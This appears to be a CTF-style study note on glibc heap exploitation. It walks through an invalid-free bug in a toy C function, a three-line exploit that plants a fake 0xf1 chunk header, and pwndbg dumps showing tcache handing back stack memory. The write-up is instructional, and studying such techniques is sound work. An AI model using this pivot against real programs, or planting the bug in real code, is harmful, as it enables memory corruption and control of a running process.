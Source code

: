 # Heap 
heap vulnerabilities consist of:
1. problems on freeing stuff
2. reading uninitialized chunks
3. buffer overflow to neighbour chunks
# Invalid free 
```c
void blast(char* buf) {
    // Vul_3: Invalid Free
    read(STDIN_FILENO, buf, 0x20);
    free(buf+0x10);
}
```
## corresponding exploit:
```py
add_record(0x100, b'A' * 8)
blast(p64(0) + p64(0xf1))
add_record(0xe8, b'A' * 8)
```
## what is in tcachebins after `blast`:
```
pwndbg> tcachebins
tcachebins
0xf0 [  1]: 0x7fffdb4cb010 ◂— 0
pwndbg> tele 0x7fffdb4cb010-0x10
00:0000│-030 0x7fffdb4cb000 ◂— 0x31 /* '1' */
01:0008│-028 0x7fffdb4cb008 ◂— 0xf1
02:0010│-020 0x7fffdb4cb010 ◂— 0
03:0018│-018 0x7fffdb4cb018 —▸ 0x55ce54e9e010 ◂— 0
04:0020│-010 0x7fffdb4cb020 —▸ 0x55ce42f2c180 (_start) ◂— endbr64 
05:0028│-008 0x7fffdb4cb028 ◂— 0x6819b5d8d1cd2900
06:0030│ rbp 0x7fffdb4cb030 —▸ 0x7fffdb4cb040 ◂— 0
07:0038│+008 0x7fffdb4cb038 —▸ 0x55ce42f2ca62 (main+142) ◂— mov eax, 0
```
## How does the chunk look like after `add_record(0xe8, b'A' * 8)`:
```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x55ce54e9e000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x55ce54e9e290
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x55ce54e9e2b0
Size: 0x110 (with flag bits: 0x111)

Allocated chunk | PREV_INUSE
Addr: 0x55ce54e9e3c0
Size: 0x20 (with flag bits: 0x21)

Top chunk | PREV_INUSE
Addr: 0x55ce54e9e3e0
Size: 0x20c20 (with flag bits: 0x20c21)

pwndbg> tele 0x55ce54e9e3c0
00:0000│  0x55ce54e9e3c0 ◂— 0
01:0008│  0x55ce54e9e3c8 ◂— 0x21 /* '!' */
02:0010│  0x55ce54e9e3d0 ◂— 0x3ff0000000000000
03:0018│  0x55ce54e9e3d8 ◂— 0xe8
04:0020│  0x55ce54e9e3e0 —▸ 0x7fffdb4cb010 ◂— 'AAAAAAAA'
05:0028│  0x55ce54e9e3e8 ◂— 0x20c21
06:0030│  0x55ce54e9e3f0 ◂— 0
07:0038│  0x55ce54e9e3f8 ◂— 0
pwndbg> tele 0x7fffdb4cb010
00:0000│-020 0x7fffdb4cb010 ◂— 'AAAAAAAA'
01:0008│-018 0x7fffdb4cb018 ◂— 0
02:0010│-010 0x7fffdb4cb020 —▸ 0x55ce42f2c180 (_start) ◂— endbr64 
03:0018│-008 0x7fffdb4cb028 ◂— 0x6819b5d8d1cd2900
04:0020│ rbp 0x7fffdb4cb030 —▸ 0x7fffdb4cb040 ◂— 0
05:0028│+008 0x7fffdb4cb038 —▸ 0x55ce42f2ca62 (main+142) ◂— mov eax, 0
06:0030│+010 0x7fffdb4cb040 ◂— 0
07:0038│+018 0x7fffdb4cb048 —▸ 0x7fb1d2c43083 (__libc_start_main+243) ◂— mov edi, eax
```

### explanation of the above 

1. First allocation:
```python
add_record(0x100, b'A' * 8)  # Creates a normal chunk
```

2. The invalid free exploitation:
```python
blast(p64(0) + p64(0xf1))    # Creates a fake chunk header
```
- The `blast` function reads input at `buf` but frees `buf+0x10`
- Writing fake chunk header `p64(0) + p64(0xf1)`:
  - `p64(0)`: prev_size field
  - `p64(0xf1)`: size field indicating a chunk of size 0xf0
- When `free(buf+0x10)` is called, malloc reads the metadata from `buf` (which is 0x10 bytes before the free location)
- This fake chunk of size 0xf0 gets added to the tcachebin  
That is why tcachebin state shows:
```
tcachebins
0xf0 [  1]: 0x7fffdb4cb010 ◂— 0
```
- A chunk of size 0xf0 is now in tcache
- The chunk address is on the stack (0x7fffdb4cb010)
3. Final allocation:
```python
add_record(0xe8, b'A' * 8)   # Allocates from our fake free'd chunk
```
- Size 0xe8 fits in our fake 0xf0 chunk
- This allocation returns the pointer to our fake chunk on the stack
- Now we have control over stack memory through heap operations

This is a heap-to-stack pivot, where we've tricked malloc into treating stack memory as if it were heap memory. 